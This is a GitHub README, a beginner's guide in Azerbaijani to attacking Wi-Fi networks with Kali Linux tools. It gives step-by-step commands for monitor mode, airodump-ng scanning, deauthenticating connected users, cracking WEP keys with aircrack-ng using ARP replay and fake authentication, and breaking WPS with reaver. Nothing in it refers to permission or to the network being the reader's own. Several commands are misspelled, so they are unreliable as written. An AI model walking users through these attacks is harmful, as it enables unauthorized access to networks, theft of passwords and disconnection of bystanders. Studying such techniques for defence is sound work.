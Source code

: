 # Kali-Linux-Network-Attacks-Azerbaijani-starter-guide
This is short guide to start or revise network attacks via kali linux software tools. Fully in Azerbaijani language. AZE BKU



_Monitor mode-ə keçmə:_

1. İfconfig komandası vasitəsilə wlan0 adapterini söndür:

**Ifconfig wlan0 down**

1. Iwconfig komadası vasitəsilə wlan0 adapterini monitor mode-ə keçir:

**Iwcofig wlan0 mode monitor**

1. Ifconfig komadası vasitəsilə wlan0 adapterini yandır:

**İfconfig wlan0 up**

_YOXLAMAQ ÜÇÜN:_

Terminala iwconfig komandasını yazdıqda **Mode** yazısından sonra **Monitor** yazılmalıdır.

![](RackMultipart20230111-1-l4ew98_html_6c3af8d47dcfbdbe.png)

_Wifilar__ı scan eləmək üçün:_

1. Adapterin(wlan0) monitor mode-də olduğuna əmin olun.
2. Airodump-ng komandası vasitəsilə wlan0 adapteri ilə scan-a başlayın:

**Airodump-ng wlan0**

1. Qabağınıza belə bir siyahı çıxacaq:

![](RackMultipart20230111-1-l4ew98_html_de7bf95b4d67d4a9.jpg)

**BSSID**** :** bssid göstərilmiş Wifi-ın MAC adressidir(ətraflı scan etdikdə istədiyimiz wifi-ın MAC adressini göstərməliyik)

**PWR**** :** PWR göstərilmiş Wifi-ın gücüdür( nə qədər ədəd böyükdür, o qədər potensial bağlantı güclüdür)

**#DATA**** :** #data Wifi-ın hal hazırda nə qədər paket qəbul etməsinin göstəricisidir.

Əgər Wifi hal hazırda işlənirsə( insanlar tərəfindən) onda bu data göstəricisi tez-tez artacaq.Əgər göstərici 0-da qalıbsa və ya çox gec artırsa Wifi-dan hal-hazırda istifadə etmirlər.

**CH**** :** CH Wifi-ın neçənci kanalda işlədiyini göstərir(ətraflı scanda Wifi-ın işlədiyi kanalı qeyd etməliyik)

**ENC**** :** ENC Wifi-ın növüdür, ən populyar növlər WEP, WPA, WPA2 -dir.

Bunlardan ən asan qırılan WEP-dir. Çünki köhnə kodlaşdırma növündən istifadə edilir.(client-dən routerə gedən paketlər eyni IV ilə kodlaşdırıldığına görə)

_Ətraflı scan:_

1. Scan etdikdən sonra ətraflı scan etmək istədiyiniz Wifi-ın **BSSID və CH** müəyyən edin.
2. Airodump-ng komandasından istifadə etməklə scan etmək istədiyiniz Wifi-ın bssid-ni, ch-nı bir komandada yazmaqla terminala verin:

**Airodump-ng --bssid \<Wifi-ın bssid-si\> --channel \<Wifi-ın CH-i\> --write \<istədiyiniz Wifi-in scanın nəticələrini yadda saxlayan faylın adı\> wlan0**

Komandaya hər hansı bir opsiya əlavə eləmək üçün - və ya – istifadə olunur

(Məsələn: --bssid)

**Komandaya misal:**

_ **Airodump-ng –bssid 30:C5:A6:E7:G8:AA –channel 2 –** __ **write test\_scan wlan0** _

1. Qabağınıza belə bir şey çıxacaq:

![](RackMultipart20230111-1-l4ew98_html_9cf611c66af814ae.jpg)

**STATION**** :** STATION istifadəçinin(client) BSSID-sidir.

_Ətraflı scandan sonra scanın nəticələri olduğunuz directorydə yadda saxlanılacaq(məndə root idi)_

Bu scandan biz paketlər aldıq. İndi isə həmin paketləri decrypt eləmək olar..

P.s: bu paketlərdə yalnız istifadəçinin device-ın markası göstəriləcək( Samsung, Apple, Xiaomi və s.).Digər məlumatlar kodlaşdırılıb.

_Wireshark vasitəsilə decrypt eləmək üçün:_

1. Terminalda Wireshark yazırıq.
2. Açılan proqramda yuxarı sol küncdə "Open" basırıq.
3. Açılmış Explorerdə yadda saxladığımız faylın .cap uzantısı ilə olanı seçirik.
4. Və paketlərin Decrypti açılacaq.

![](RackMultipart20230111-1-l4ew98_html_b6541c2ce294420b.png)

1. Gördüyümüz kimi paketlərdən bildik ki, istifadəçilərdən biri Apple işlədir, digəri isə Xiaomi(router də ola bilər). Az olsa da artıq bir qədər informasiya var.

_**Deauth(istifadəçi qovulması) attack eləmək üçün:**_

1.Deauth attack STATION-lara edilir.Deauth attack etdiyimiz device-in MAC adressini öyrənməliyik.Bunun üçün ətraflı scan etməliyik. Ətraflı scan etdikdən sonra

2.Aireplay-ng komandası vasitəsilə **--deauth** yazırıq.Deauth yazdıqdan sonra göndərilən paketlərin sayını yazırıq. **-a** vasitəsilə routerin(access point) MAC adressini yazırıq. **-c** vasitəsilə isə deauth edəcəyimiz device-ın MAC adressini yazırıq. Axırda isə adapterin göstəricisini yazırıq( wlan0 )

_ **Aireplay-ng --deauth** _ _ **\<Paketl** __**ərin sayı**__ **\> -a \<r** __**outer MAC**__ **\> -c \<device MAC\> wlan0** _

_ **WEP tipli wifi-lar** __ **ın parolunu hack eləmək üçün:** _

1. WEP tipli qoşulmaları qırmaq üçün həmin qoşulmadan keçən çoxlu paketlər almalıyıq. Wifi işlədilən zaman biz ətraflı scan etməliyik(fayl yadda saxlamaq şərti ilə)
2. Aircrack-ng komandası vasitəsilə faylın adını( .cap uzantısı ilə ) yazırıq.

**Aircrack-ng test\_01.cap**

![](RackMultipart20230111-1-l4ew98_html_3a7bb1c63f2e15c2.jpg)

**KEY FOUND** yazısından sonraki MAC adressə oxşayan yazı elə paroldur.

_**Əgər aktiv paketlər yoxdusa özümüz yaradırıq: (arp replay)**_

_ **Aireplay-ng --arpreplay -b \<wifi bssid\> -h \<adapter bssid\> wlan0** _

_**Fakeauth attack( fake doğrulama- istifadəçinin qoşulması):**_

_ **Aireplay-ng --fakeauth 0 -a \<wifi bssid\> -h \<adapter bssid\> wlan0** _

_ **WPA/WPA 2 çalış fluxion işlət, amma bəxtin gətirsə, əgər WİFİ-da WPS varsa rahat qırmaq olar.** _

1. _**wash --interface wlan0 (wps olanlar**__**ı yoxlamaq üçün)**_
2. _ **fakeatuh 30** _
3. _ **./** __**reaver --bssid** _ _ **\<Wifi** _ _ **bssid**__ **\> --channel \<Kanal\> --interface wlan0 -vvv --no-associate(k**__**öhnə versiyasa istifadə edir, problem yaransa "—no-associate" komandasını sil)**_
